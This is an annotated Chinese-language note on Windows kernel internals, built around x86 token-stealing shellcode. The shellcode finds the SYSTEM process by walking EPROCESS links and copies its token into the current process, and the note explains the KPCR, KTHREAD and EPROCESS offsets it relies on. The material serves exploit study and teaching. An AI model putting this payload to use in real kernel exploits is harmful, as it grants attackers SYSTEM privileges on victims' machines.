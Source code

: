 pushad;保存所有寄存器，最后要堆栈平衡
xor eax, eax;eax置零
mov eax, fs:[eax + 124h]; 得到当前线程的KTHREAD结构地址
mov eax, [eax + 50h];得到当前进程的EPROCESS结构地址
mov ecx, eax; 将当前进程的EPROCESS结构地址保存到ecx中
mov ebx, [eax + F8h];将当前进程的token保存到ebx中
mov edx, 4h;将0x4保存在edx中，0x4是windows系统中SYSTEM进程的PID，是不变的，可以用任务管理器看到
SearchSystemPID:;这一段主要的作用是遍历所有进程，找到PID为4的进程也就是SYSTEM
    mov eax, [eax + B8h];将下一个进程的EPROCESS.ActiveProcessLinks结构地址保存到eax中
    sub eax, B8h;eax减去FLINK_OFFSET的偏移是EPROCESS结构起始地址
    cmp [eax + B4h], edx;取PID对比是否为0x4
    jne SearchSystemPID;是的话就跳出来
mov edx, [eax + F8h];取SYSTEM进程的token
mov [ecx + F8h], edx;把SYSYTEM的TOKEN值复制到当前进程
popad;恢复堆栈

KPCR结构体，描述了当前CPU的各种状态,包括当前CPU正在运行的线程的部分经常使用的信息，每一个CPU都有一个对应的结构体,线程进入内核层fs寄存器指向
KTHREAD结构体，当前线程的指针
EPROCESS结构体是Windows系统中的每一个进程在内核层描述进程信息的结构体， 这个结构体包含了进程所有的重要的信息
KAPC_STATE描述APC信息的结构体
ActiveProcessLinks双向链表，前4个字节指向下一个进程EPROCESS结构ActiveProcessLinks的地址，后4个指向上一个。
UniqueProcessId进程的PID

1. KPCR + 0x124 = KPCR + 0x120 + 0x04 = KPRCB + 0x04 = KTHREAD(固定的偏移量)
2. KTHREAD + 0x50  = KTHREAD + 0x34 + 0x20 = KAPC_STATE(固定的偏移量) + 0x20 = EPROCESS(不固定偏移量)
3. EPROCESS + 0xF8 = Token(不固定偏移量)
4. EPROCESS + 0xB8 = ActiveProcessLinks(不固定偏移量)
5. EPROCESS + 0xB4 = UniqueProcessId(不固定偏移量，但相对于ActiveProcessLinks固定)
